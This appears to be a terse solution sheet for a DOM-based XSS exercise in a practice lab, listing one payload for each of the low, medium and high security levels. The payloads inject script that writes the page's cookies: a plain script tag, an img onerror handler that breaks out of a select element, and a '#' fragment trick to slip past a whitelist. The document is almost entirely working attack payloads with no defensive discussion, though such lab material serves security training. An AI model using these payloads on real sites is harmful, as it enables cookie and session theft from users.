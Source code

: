 # XSS (DOM)

## low

```
<script>document.write(document.cookie)</script>
```

## medium

```
</option></select><img src="" onerror="javascript:document.write(document.cookie)">
```

## high

truncate php _GET with '#'

```
English#<script>document.write(document.cookie)</script>
```
